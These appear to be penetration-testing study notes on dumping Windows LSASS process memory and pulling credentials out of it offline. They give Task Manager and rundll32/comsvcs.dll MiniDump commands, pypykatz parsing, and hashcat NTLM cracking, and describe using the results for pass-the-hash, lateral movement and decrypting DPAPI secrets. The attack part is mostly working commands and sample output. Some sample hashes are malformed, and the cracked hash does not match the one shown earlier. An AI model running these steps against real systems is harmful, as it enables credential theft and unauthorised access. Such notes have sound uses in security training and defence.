

**LSASS** (Local Security Authority Subsystem Service) is a core Windows process responsible for:

- Enforcing local security policies
    
- Handling user authentication
    
- Creating access tokens
    
- Caching credential material in memory
    
- Writing to the Windows Security Event Log
    

Because LSASS stores credentials **in memory**, dumping its process memory can reveal:

- NTLM hashes
    
- Kerberos tickets
    
- DPAPI master keys
    
- Potentially clear-text passwords (legacy systems)
    

---

## LSASS Behavior at Logon

Upon successful authentication, LSASS will:

- Cache credentials in memory
    
- Create access tokens for the session
    
- Apply security policies
    
- Log authentication events
    

---

## Dumping LSASS Process Memory

The goal is to create a **memory dump** of `lsass.exe` and extract credentials **offline**.

Advantages of offline extraction:

- Reduced interaction time with the target
    
- Faster analysis
    
- Lower detection risk during parsing
    

### Method 1: Task Manager (GUI)

**Requirements**

- Interactive GUI session
    
- Administrative privileges
    

**Steps**

1. Open Task Manager
    
2. Go to the **Processes** tab
    
3. Locate **Local Security Authority Process (lsass.exe)**
    
4. Right‑click → **Create dump file**



**Result**

- File created as:  
    `%TEMP%\lsass.DMP`
    

Transfer the dump file to the attack host for offline analysis.


### Method 2: rundll32.exe + comsvcs.dll (CLI)

This method works from **command line or PowerShell** and does not require a GUI.

> Note: Modern antivirus solutions commonly detect this technique.

#### Step 1: Identify LSASS PID

**Using CMD:**

```cmd
tasklist /svc
```

**Using PowerShell:**

```powershell
Get-Process lsass
```


#### Step 2: Create the Dump File

Run from an **elevated PowerShell session**:

```powershell
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

**Explanation**

- `rundll32.exe` loads `comsvcs.dll`
    
- Calls `MiniDumpWriteDump`
    
- Dumps LSASS memory to `C:\lsass.dmp`
    

If successful, transfer `lsass.dmp` to the attack machine.

---

## Extracting Credentials with Pypykatz

**Pypykatz** is a python implementation of Mimikatz and allows offline analysis of the extracted dump.

```bash
pypykatz lsa minidump /path/to/lsass.dmp
```

**Breakdown**

- `lsa` → Local Security Authority
    
- `minidump` → Memory dump input
    
- Path → Location of the LSASS dump file


---

## Interpreting Pypykatz Output

Each **LogonSession** may contain multiple credential artifacts.


### MSV (NTLM Credentials)

Example:

```
== MSV ==
Username: john
Domain: DESKTOP-33E7O54
NT: 64f22ww4rt88057e06a81b54e73b949b
SHA1: cba4e545b7ec32215725154b29f055e4cd5aea8
```

**Notes**

- MSV validates credentials against the SAM database
    
- NT hash can be used for:
    
    - Pass-the-Hash
        
    - Offline cracking
        


### WDIGEST (Clear-Text Credentials)

```
== WDIGEST ==
username john
password None
```

**Notes**

- Stores clear-text credentials in memory
    
- Enabled by default on:
    
    - Windows XP – Windows 8
        
    - Server 2003 – Server 2012
        
- Disabled by default on modern systems
    
- Patched by Microsoft security updates
    

---

### Kerberos

```
== Kerberos ==
Username: john
Domain: DESKTOP-33E7O54
```

**Notes**

- Kerberos tickets and keys may be cached
    
- Can be used for:
    
    - Lateral movement
        
    - Ticket reuse attacks
        
    - Accessing domain resources
        

---

### DPAPI

```
== DPAPI ==
masterkey 12dc2f...
sha1_masterkey 52f358...
```

**Notes**

- DPAPI master keys protect:
    
    - Browser passwords
        
    - Wi‑Fi credentials
        
    - Application secrets
        
- Can be used to decrypt user‑level secrets
    

---

## Cracking NT Hashes with Hashcat


```bash
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

**Parameters**

- `-m 1000` → NTLM hash mode
    
- Hash → Extracted NT hash
    
- Wordlist → Password dictionary
    
